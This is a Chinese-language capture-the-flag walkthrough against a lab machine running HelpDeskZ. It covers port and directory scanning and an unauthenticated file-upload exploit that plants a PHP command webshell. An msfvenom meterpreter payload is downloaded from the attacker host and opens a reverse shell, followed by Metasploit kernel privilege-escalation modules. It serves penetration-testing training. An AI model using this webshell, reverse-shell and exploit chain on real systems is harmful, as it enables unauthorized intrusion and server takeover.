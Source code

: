 ```yaml
---
title: k-secret(File upload)
categories:
- training
tags:
- training
---
```

10.10.10.121
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80

访问10.10.10.121:80，Apache/2.4.18 (Ubuntu) ，默认配置页面

```
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.121/support/
页面上的登陆表单，有csrf参数，不允许爆破弱口令

换一个字典
apache-user-enum-1.0.txt
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt
```
#### 目录扫描
- gobuster -u http://10.10.10.121:80/support/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/uploads (Status: 301)
/css (Status: 301)
/includes (Status: 301)
存在上传目录，302跳转到apache默认配置页面
```
- gobuster -u http://10.10.10.121/support/uploads -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/articles (Status: 301)
/tickets (Status: 301)
```
- gobuster -u http://10.10.10.121/support/uploads/tickets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### exp尝试
- searchsploit help deskZ

```
HelpDeskZ <= v1.0.2 - Unauthenticated Shell Upload
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

searchsploit -m exploits/php/webapps/40300.py
python 40300.py  http://10.10.10.121:80/support/ ports.txt
失败
---
python 40300.py http://10.10.10.121/support/uploads/tickets whale.php

连接错误
requests.exceptions.ConnectionError: HTTPConnectionPool(host='10.10.10.121', port=80): Max retries exceeded with url: /support/uploads/tickets/1cd2ed348346b00c48d3f78579d6431d.php (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f0def11a290>: Failed to establish a new connection: [Errno 110] Connection timed out',))
---
searchsploit -m exploits/php/webapps/41200.py
需要一个可以登陆的口令
```
- 尝试文件上传

`http://10.10.10.121/support/?v=submit_ticket&action=displayForm`

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/6.PNG)

- 尝试github的exp

```
wget https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit

python exploit

python exploit http://10.10.10.121/support/uploads/tickets whale.php

[https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit](https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit)
```

观察exp，是通过时间推算出上传的php脚本的名称，然后组合baseurl，查看状态码是否是200。

如果是200，说明上传成功。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/2.PNG)

首先上传一个php脚本，上传地址参考上述步骤“尝试文件上传”,内容为`<?php echo(system($_GET["cmd"])); ?>`

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/1.PNG)

成功上传webshell

## 3000 port

```
10.10.10.121:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}

X-Powered-By: Express

searchsploit Express
searchsploit Node.js

nikto -h http://10.10.10.121:3000 > nikto.txt

gobuster -u http://10.10.10.121:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
结果，没有发现任何存在目录
```

## 提权

#### 信息搜集

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/3.PNG)

```
cmd=uname+-a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
64位linux，ubuntu

pwd
/var/www/html/support/uploads/tickets

cmd=cat+/home/help/user.txt
```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/4.PNG)

获得help用户的webshell，如果不会这一步，参考https://whale3070.github.io/tag/#/command%20execution

---
查看内核版本后，searchsploit linux 4.4.0，根据结果，值得尝试msf suggester。

生成64位msf回连载荷，上传

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=6678 -f elf -o payload.elf
python -m SimpleHTTPServer 8001
```

攻击机webshell:

```
wget http://10.10.14.2:8001/payload.elf -P /tmp
chmod +x /tmp/payload.elf
```

本地监听：

```
msfconsole
handler -H 10.10.14.2 -P 6678 -p linux/x64/meterpreter_reverse_tcp
```

攻击机webshell:	`./payload.elf`

本地监听，成功回连msf payload:

```
use post/multi/recon/local_exploit_suggester
set SESSION 2

[+] 10.10.10.121 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.


use exploit/linux/local/bpf_priv_esc
set SESSION 2
set LHOST 10.10.14.2
set LPORT 6679
show options
run
失败

---
use exploit/linux/local/bpf_sign_extension_priv_esc
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.2
set LPORT 6679
set SESSION 2
show options
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/7.PNG)

